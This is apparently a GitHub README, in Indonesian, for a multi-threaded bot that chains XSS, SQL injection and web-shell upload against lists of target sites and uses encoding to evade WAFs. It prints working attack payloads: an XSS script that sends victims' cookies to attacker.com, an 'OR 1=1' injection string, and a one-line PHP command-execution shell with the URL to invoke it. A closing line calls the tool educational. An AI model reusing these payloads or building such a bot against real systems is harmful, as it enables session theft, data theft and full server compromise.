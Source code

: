 # XSS-SQLI
XSS + SQL Injection + Web Shell Upload Bot
---

# **XSS + SQL Injection + Web Shell Upload Bot**  
**Versi: 1.0**  

## **📌 Tentang Script Ini**  
Script ini adalah **bot sederhana** yang menggabungkan tiga teknik serangan web yang umum:  
![17413997546818279413700194614756](https://github.com/user-attachments/assets/334b0168-6210-4f37-b99a-6ffbececf19b)

1️⃣ **XSS (Cross-Site Scripting)** → Menyisipkan script berbahaya untuk mencuri **cookie/session** user.  
2️⃣ **SQL Injection** → Mengeksploitasi celah SQL untuk mendapatkan **data sensitif** dari database.  
3️⃣ **Web Shell Upload** → Mengunggah file shell untuk mendapatkan **akses penuh ke server**.  

---

## **⚙️ Cara Kerja Script**  
✅ **User memasukkan target** (manual atau dari file).  
✅ **Bot menjalankan serangan berurutan** (XSS → SQLi → Web Shell).  
✅ **Jika SQL Injection berhasil**, lanjut **upload web shell** otomatis.  
✅ **Serangan dilakukan dengan encoding canggih** untuk **bypass WAF**.  
✅ **Menggunakan multi-threading** supaya bisa menyerang banyak target sekaligus.  

---

## **📂 Fitur Utama**  
✔️ **XSS Payload terenkripsi** → Meminimalkan deteksi oleh WAF.  
✔️ **Bypass WAF SQL Injection** → Menggunakan payload yang lebih stealth.  
✔️ **Web Shell Upload** → Menyisipkan backdoor di server target.  
✔️ **Bot otomatis multi-threading** → Bisa menyerang banyak target dalam waktu singkat.  
✔️ **Error Handling** → Script tidak akan crash jika target mati atau tidak responsif.  

---

## **🚀 Cara Menggunakan**  
### **1️⃣ Jalankan Script**  
```bash
python3 xss_sqli_shell.py
```
  
### **2️⃣ Pilih Metode Input Target**  
1️⃣ **Manual** → Masukkan URL target satu per satu.  
2️⃣ **Dari File** → Masukkan daftar target dari file (`targets.txt`).  

**Contoh format file `targets.txt`**  
```
http://victim.com/vuln.php?input=
http://testsite.com/comment.php?msg=
```

---

## **🔴 Contoh Serangan**  
📌 **XSS Attack:**  
```html
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
```

📌 **SQL Injection:**  
```sql
' OR 1=1--
```

📌 **Web Shell Upload:**  
- Mengunggah file `shell.php` berisi:  
```php
<?php system($_GET['cmd']); ?>
```
- Setelah berhasil, akses shell:  
```
http://target.com/uploads/shell.php?cmd=whoami
```

---

## **📌 Catatan**  
🔹 Script ini **sederhana** dan hanya untuk **edukasi** tentang keamanan web.  
🔹 Jangan digunakan untuk hal ilegal! Gunakan hanya di **sistem yang Anda miliki atau izin resmi**.  
🔹 **Pastikan memahami konsep dasar keamanan web** sebelum menggunakan script ini.  

---

## **👨‍💻 Dibuat Oleh**  
🛠️ **Cyber-Heroes** - Edukasi & Eksperimen Keamanan Web  
---

